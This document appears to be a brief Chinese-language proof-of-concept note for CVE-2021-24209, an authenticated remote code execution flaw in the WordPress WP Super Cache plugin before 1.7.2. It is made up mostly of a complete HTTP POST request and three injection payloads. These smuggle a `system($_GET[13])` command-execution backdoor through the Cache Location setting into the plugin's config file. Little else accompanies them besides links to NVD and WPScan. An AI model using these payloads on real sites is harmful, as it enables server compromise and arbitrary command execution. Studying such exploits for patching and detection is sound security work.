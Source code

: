 # WordPress WP Super Cache 插件 < 1.7.2 RCE（CVE-2021-24209）

WP Super Cache Settings -> Cache Location option选项中的$cache_path过滤不严，导致该插件在设置页面中受身份验证（admin+）RCE的影响。

PoC：


```
POST /wp-admin/options-general.php?page=wpsupercache&tab=settings HTTP/1.1
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 501
Cookie: [admin cookies]

_wpnonce=88a432b100&_wp_http_referer=%2Fwp-admin%2Foptions-general.php%3Fpage%3Dwpsupercache%26tab%3Dsettings&action=scupdates&wp_cache_enabled=1&wp_cache_mod_rewrite=0&wp_cache_not_logged_in=2&cache_rebuild_files=1&wp_cache_location=%2Fvar%2Fwww%2Fyour%2Fown%2Fpath%2Fexample.com%2Fwp-content%2Fcache%2F%27%3Bsystem%28%24_GET%5B13%5D%29%3Binclude_once+%5C%27wp-cache-config.php%5C%27%3B%27&_wpnonce=88a432b100&_wp_http_referer=%2Fwp-admin%2Foptions-general.php%3Fpage%3Dwpsupercache%26tab%3Dsettings 
```

payload:

```
';system($_GET[13]);include_once \'wp-cache-config.php\';'

';`$_GET[13]`;include_once \'wp-cache-config.php\';?><!--

';`$_GET[13]`;#
```

ref：

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-24209
* https://wpscan.com/vulnerability/733d8a02-0d44-4b78-bbb2-37e447acd2f3
